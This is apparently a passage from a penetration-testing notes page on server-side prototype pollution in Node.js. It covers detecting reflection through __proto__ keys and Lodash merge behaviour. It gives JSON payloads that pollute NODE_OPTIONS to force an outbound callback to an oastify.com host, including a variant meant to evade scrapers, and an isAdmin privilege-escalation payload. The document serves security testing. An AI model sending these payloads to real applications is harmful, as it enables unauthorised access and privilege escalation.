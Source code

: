 ### JSON reflection <a href="#json-reflection" id="json-reflection"></a>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Two keys are used in the preceding example `__proto__` and `__proto__x`. If the latter is reflected but not the former, then it's likely there is some form of object reflection that could be prototype pollution. If the key/value persists when the property is removed, this indicates there is some form of object persistence that could potentially be prototype pollution.

<figure><img src="../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the preceding example, only `b` is reflected and not the inherited property `a`. This is because Lodash looks at the current object to see if the property already exists in the merged object

### OAST <a href="#oast" id="oast"></a>

I read an excellent paper about [exploiting prototype pollution](https://arxiv.org/pdf/2207.11171.pdf) by Mikhail Shcherbakov, Musard Balliu & Cristian-Alexandru Staicu. In the paper they detail how to exploit Node sinks such as `fork()`, `exec()`, `execSync()` and others.

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id.oastify.com"
  }
}
```

windows

```json
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
  }
}
```

This will successfully evade scrapers and create the required DNS interaction.

## Exploitation

### Privilege Escalation

```json
{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "isAdmin": true
    }
}
```
